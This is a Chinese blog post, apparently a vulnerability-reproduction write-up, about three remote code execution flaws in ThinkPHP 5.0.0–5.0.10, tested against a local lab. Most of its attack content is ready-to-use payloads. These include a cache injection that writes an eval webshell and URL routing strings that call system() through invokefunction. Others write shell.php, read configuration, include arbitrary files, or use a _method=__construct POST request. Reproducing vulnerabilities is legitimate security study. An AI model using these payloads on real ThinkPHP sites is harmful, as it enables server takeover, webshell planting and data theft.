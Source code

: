 ```yaml
---
title: ThinkPHP 5 代码执行漏洞复现+POC
categories:

  - 漏洞复现
tags:
  - 漏洞
  - RCE
  - 漏洞复现
  - ThinkPHP 5
  - ThinkPHP
  - author: Chace
  - date: 2020-06-09 20:07:00
---
```

## ThinkPHP 5.0.10 环境框架搭建

ThinkPHP是一个免费开源的，快速、简单的面向对象的轻量级PHP开发框架，是为了敏捷WEB应用开发和简化企业应用开发而诞生的。ThinkPHP从诞生以来一直秉承简洁实用的设计原则，在保持出色的性能和至简的代码的同时，也注重易用性。
<!--more-->
![](1.png)
查看当前版本
![](2.png)
环境搭建成功


## 缓存类导致RCE

### 版本

>5.0.0<=ThinkPHP5<=5.0.10

### 测试payload

**漏洞利用条件**

1. 基于tp5开发的代码中使用了Cache::set 进行缓存
2. 在利用版本范围内
3. runtime目录可以访问

创建一个生成缓存的页面
![](3.png)
构造payload如下：

>http://127.0.0.1/public/?username=syst1m%0d%0a@eval($_GET[_]);//

成功在缓存文件写入payload

![](4.png)

>http://127.0.0.1/runtime/cache/b0/68931cc450442b63f5b3d276ea4297.php?_=phpinfo();

![](5.png)

成功执行代码
    
## 未开启强制路由导致rce

### 版本

>5.0.0<=ThinkPHP5<=5.0.10

### 测试payload

>5.1.x ：
``` html
    ?s=index/\think\Request/input&filter[]=system&data=pwd
    ?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>
    ?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
    ?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
    ?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```
>5.0.x ：
``` html
    ?s=index/think\config/get&name=database.username # 获取配置信息
    ?s=index/\think\Lang/load&file=../../test.jpg    # 包含任意文件
    ?s=index/\think\Config/load&file=../../t.php     # 包含任意.php文件
    ?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```

当前环境版本是5.0.10，构造payload如下：

>http://127.0.0.1/public/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami

![](6.png)
成功执行代码

## method任意调用方法导致rce

### 版本

>5.0.0<=ThinkPHP5<=5.0.10

### 测试payload

构造payload如下：
```
POST /index.php?s=index HTTP/1.1
_method=__construct&filter[]=system&method=get&get[]=whoami
```

![](7.png)
成功执行代码
## 参考

[Thinkphp5 RCE总结](https://xz.aliyun.com/t/7792#toc-0)
[Thinkphp5 代码执行学习](https://y4er.com/post/thinkphp5-rce)